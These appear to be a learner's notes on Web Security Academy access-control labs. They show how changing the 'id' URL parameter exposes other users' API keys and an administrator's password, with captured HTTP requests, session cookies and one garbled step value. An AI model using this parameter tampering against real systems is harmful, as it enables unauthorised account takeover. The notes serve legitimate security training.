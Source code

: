 ## Method-based access control can be circumvented

Role - user to Admin 

try to change session id 
try to change the role auth user

## User ID controlled by request parameter 

    Log in using the supplied credentials and go to your account page.
    Note that the URL contains your username in the "id" parameter.
    Send the request to Burp Repeater.
    Change the "id" parameter to carUJN3KbEXHEFIiHOFRXRKivKK4My6UzVP
    Retrieve and submit the API key for carlos.

https://0a6100f503b07ade81174ece00eb00f6.web-security-academy.net/my-account?id=wiener #original
https://0a6100f503b07ade81174ece00eb00f6.web-security-academy.net/my-account?id=carlos #modified

## User ID controlled by request parameter with data leakage in redirect

        Log in using the supplied credentials and access your account page.
        Send the request to Burp Repeater.
        Change the "id" parameter to carlos.
        Observe that although the response is now redirecting you to the home page, it has a body containing the API key belonging to carlos.
        Submit the API key.

GET /my-account?id=wiener HTTP/2
Host: 0a8c006c03cdb2f18030fd6b00f50049.web-security-academy.net
Cookie: session=hfNIY8kqlS5AlBKz0wiUJ12yllzFHUrl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8c006c03cdb2f18030fd6b00f50049.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=1
Te: trailers

***
GET /my-account?id=carlos HTTP/2
Host: 0a8c006c03cdb2f18030fd6b00f50049.web-security-academy.net
Cookie: session=hfNIY8kqlS5AlBKz0wiUJ12yllzFHUrl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a8c006c03cdb2f18030fd6b00f50049.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=1
Te: trailers

## User ID controlled by request parameter with password disclosure
   

    Log in using the supplied credentials and access the user account page.
    Change the "id" parameter in the URL to administrator.
    View the response in Burp and observe that it contains the administrator's password.
    Log in to the administrator account and delete carlos.

        GET /my-account?id=administrator HTTP/2
        Host: 0a79000803c4b2d081a62f5500830070.web-security-academy.net
        Cookie: session=M6yNsRWz9765PhgqA19zc3e4DzOkLce6
        User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/   128.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/ webp,image/png,image/svg+xml,*/*;q=0.8
        Accept-Language: en-US,en;q=0.5
        Accept-Encoding: gzip, deflate, br
        Referer: https://0a79000803c4b2d081a62f5500830070.web-security-academy.net/
        Upgrade-Insecure-Requests: 1
        Sec-Fetch-Dest: document
        Sec-Fetch-Mode: navigate
        Sec-Fetch-Site: same-origin
        Sec-Fetch-User: ?1
        Priority: u=0, i
        Te: trailers
--------------------------------------------------------------------------------
        <form class="login-form" action="/my-account/change-password" method="POST">
        <br/>
        <label>Password</label>
        <input required type="hidden" name="csrf" value="rb8vndWuskRD8oAzI6EgChUo3GwrgeKS">
        <input required type=password name=password value='udbaiqjv8rnydl9k8ym9'/> ## password dislcouse
        <button class='button' type='submit'> Update password </button>
        </form>
        </div>